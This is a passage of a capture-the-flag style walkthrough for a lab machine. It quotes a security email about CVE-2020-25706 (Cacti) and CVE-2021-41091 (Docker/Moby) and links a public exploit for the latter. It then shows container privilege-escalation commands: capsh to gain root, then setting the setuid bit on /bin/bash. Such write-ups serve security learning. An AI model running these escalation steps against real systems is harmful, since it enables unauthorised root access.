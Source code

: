 ```shell
CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```
> There are CVEs cited in the email.

Checking those 3, these are Rabbit Holes
```
CVE-2021-33033
CVE-2020-25706
```

<br>

### Getting a shell

#### CVE-2021-41091
https://github.com/UncleJ4ck/CVE-2021-41091

But first it requires the docker container to be root and set the setuid bit on /bin/bash in the Docker container.

Setting the SetUID in `www-data` to gain Root
```shell
www-data@50bca5e748b0:/sbin$ capsh --uid=0 --gid=0 --
whoami
root

id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

chmod u+s /bin/bash
```
